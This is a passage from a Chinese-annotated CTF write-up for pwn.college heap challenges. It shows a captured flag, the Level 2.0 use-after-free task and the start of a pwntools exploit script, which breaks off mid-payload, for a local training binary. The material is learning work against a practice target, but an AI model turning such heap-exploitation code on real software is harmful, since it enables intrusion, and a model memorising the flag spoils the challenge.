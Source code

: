 ## Flag

Flag: `pwn.college{8oPO3KqdZU5lZfzl5xftjR2IZif.0lM3MDL5cTNxgzW}`

# Level 2.0

## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag.

## Write-up

与 [Level 1](#level-10) 区别不大。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./babyheap_level2.0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def construct_payload():
    return [
        (b"malloc", b"1337"),
        (b"free", None),
```